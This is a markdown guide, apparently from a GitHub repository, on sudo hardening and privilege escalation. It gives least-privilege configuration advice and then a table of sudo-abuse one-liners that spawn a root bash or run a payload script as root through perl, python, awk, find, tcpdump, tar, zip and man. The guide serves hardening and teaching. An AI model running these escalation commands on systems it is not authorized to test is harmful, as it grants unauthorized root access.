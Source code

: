 The `sudo` command makes it possible for a user to execute a command as another user (usually the root account).
A misconfiguration of the sudo command can easily lead to a privilege escalation.

Here are few good practices about sudo configuration:

Do not allow some commands that can permit to execute some code like `vi`, `find`, `bash`, `awk`, `perl` ...

Never configure `sudo` like that `user	ALL=NOPASSWD:ALL`.

Grant the minimum privileges to perform necessary tasks or operations, be as specific as you can. For example if you want to allow a user to listen on a specific interface (`eth0`) with `tcpdump`. You should configure `sudo` as follow `user ALL= (root)   NOPASSWD: /usr/sbin/tcpdump -ttteni eth0`. This configuration will permit to `user` to execute this exact command `/usr/sbin/tcpdump -ttteni eth0` as root. He will have to use this exact options in the same order or it will not work. But for this specific example it's still not the best solution, tcpdump cannot be used like that! The user you allow will need to have access to more options. So a good method to work with `tcpdump` as non root user is to not used sudo and to follow this few steps:

1. create a group `groupadd pcap`
1. add the user you want allow in this group `usermod -a -G pcap user`
1. modify the group ownership and permission of the tcpdump binary `chgrp pcap /usr/sbin/tcpdump` and `chmod 750 /usr/sbin/tcpdump`
1. set the CAP_NET_RAW and CAP_NET_ADMIN capabilities on the tcpdump binary to allow it to run without root access `setcap cap_net_raw,cap_net_admin=eip /usr/sbin/tcpdump`
1. optionally, symlink the tcpdump binary to a directory that is in the path for a normal user `ln -s /usr/sbin/tcpdump /usr/local/bin/tcpdump`

## 2. Sudo information gathering

Here is the command you need to get some clues about the possibilities you have to realize a privilege escalation using `sudo`.

| Command                | Result                            |
| :-------------------- | :------------------------------- |
| `sudo -l` or `sudo -lll` | List the allowed (and forbidden) commands for the invoking user (or the user specified by the -U option) on the current host |
| `sudo -V` | Sudo version |

## 3. Example of sudo abuse to escalate your privileges

Here are examples of commands an attacker can use to escalate his privileges.

\* I have found most of those commands on the blog [Le journal d'un reverser](http://0x90909090.blogspot.com/2015/07/no-one-expect-command-execution.html)

| Command                | Explanation                            |
| :-------------------- | :------------------------------- |
| `sudo su` | Become root |
| `perl -e 'exec "/bin/bash";'` | Launch a bash as root |
| `python -c 'import pty;pty.spawn("/bin/bash")'` | Launch a bash as root |
| When you execute one of theses program `less`, `more`, `nano`, `vi`, the `man`, `ftp`, `mysql`, `psql` you can execute some code into like that `!bash` | Launch a bash as root |
| `awk 'BEGIN {system("/bin/bash")}'` | Launch a bash as root |
| `find /home -exec /bin/bash \;` | Launch a bash as root |
| `tcpdump -i lo -w /dev/null -W 1 -G 1 -z /tmp/payload.sh` | Execute the program payload.sh as root |
| `tar c a.tar -I ./payload.sh a` | Execute the program payload.sh as root |
| `zip z.zip a -T -TT ./payload.sh` | Execute the program payload.sh as root |
| `man -P /tmp/payload.sh man` | Execute the program payload.sh as root |